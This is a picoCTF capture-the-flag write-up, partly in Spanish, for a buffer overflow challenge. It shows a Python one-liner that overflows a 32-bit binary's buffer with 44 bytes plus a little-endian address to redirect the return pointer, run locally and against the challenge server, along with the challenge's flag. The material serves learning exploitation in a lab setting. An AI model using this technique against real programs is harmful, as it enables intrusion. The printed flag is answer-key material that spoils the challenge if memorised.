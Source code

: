 ## Objetivo
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln).You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 52941`

Hints
- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

## Solucion

```bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~/picoCTF/binexp/parte-2/bufferoverflow2]
└─$ python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTf{dummie_flag}
Segmentation fault (core dumped)

┌──(wil㉿DESKTOP-FKOIV4I)-[~/picoCTF/binexp/parte-2/bufferoverflow2]
└─$ (python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')";echo) | nc saturn.picoctf.net 64314
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```
## Notas adicionales
## Referencias

